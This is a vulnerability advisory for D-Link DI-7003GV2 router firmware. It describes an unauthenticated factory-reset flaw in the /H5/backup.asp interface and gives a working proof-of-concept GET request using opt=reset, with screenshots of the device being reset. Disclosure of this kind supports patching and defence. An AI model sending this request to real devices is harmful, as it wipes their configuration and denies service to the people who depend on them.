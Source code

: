 # Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlink.com.cn/techsupport/download.ashx?file=7828

# Affected version

DI-7003GV2-24.04.18D1 R(68125)

# Vulnerability description

The D-Link DI-7003GV2 firmware version 24.04.18D1 R(68125) contains an authentication bypass vulnerability in the `/H5/backup.asp` interface. Remote attackers can trigger a factory reset of the device by sending a crafted HTTP request with `opt=reset` without authentication. Exploitation results in the immediate loss of device configuration and service interruption, potentially leading to denial of service or unauthorized control reset.

# Vulnerability details

The `H5/backup.asp` interface is processed by the `sub_4983B0` function.

![图 0](img/feae5ba6aabe6361f03ef1b06630f13c5e6139b4c93097c35d8f4995e64a3e00.png)  

`sub_4983B0` function: The opt parameter has three options: backup, recover, and reset, where reset can reset the system configuration to the factory settings state.

![图 1](img/c1d09e5dd61a24ef0b7bee7cb5650c894aa74b8df4664002a8fcb6679138b296.png)  


# POC

After sending the request, no response information from the device is received, but in fact, the device has already entered the factory reset process.

```http
GET /H5/backup.asp?opt=reset HTTP/1.1
Host: 192.168.0.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

![图 2](img/3a2fa9b82ecfbcc94725e1e8f7d00bbd0913bd575c495ce280e5684cdd8ceebc.png)  

The device cannot be accessed.

![图 3](img/bd2510d7297d7ae3156cc749535870e6eebb03d2778f86f88e02835cbf0c40e6.png)  

After waiting for the factory settings restoration to complete, the device's IP address will revert to the default 192.168.0.1, and accessing this address will display the initial setup process of the device.

![图 4](img/cbba78848aa4d1d25a50ca872fb65952a4f4551783dbb44dab6aa1831cf9988e.png)  
